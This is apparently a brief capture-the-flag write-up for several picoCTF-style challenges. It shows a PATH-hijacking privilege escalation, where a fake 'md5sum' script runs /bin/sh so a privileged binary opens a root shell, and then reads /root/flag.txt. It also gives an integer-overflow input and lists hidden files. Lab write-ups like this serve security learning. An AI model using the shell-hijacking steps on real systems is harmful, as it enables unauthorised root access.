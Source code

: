 Now it gives you a # Terminal
type 
```
cat /root/flag.txt
```


## hash-only-2

After loggin in we can see the terminal.

We can bypass and read the flag

Since we dont have permissing to run any thing we open anything here we use bash to open a new shell

```
bash
```

```
echo '#!/bin/bash' > md5sum
echo '/bin/sh' >> md5sum
chmod +x md5sum
export PATH=.:$PATH
flaghasher
```

Now it gives you a # Terminal
type 
```
cat /root/flag.txt
```


## two-sum

You have to cause Integer overflow
so enter

```
2147483647 1
```

It will overflow


## hijacking

The files are hidden

```
ls -la
```
vi works
```
vi /home/picoctf/.server.py
```
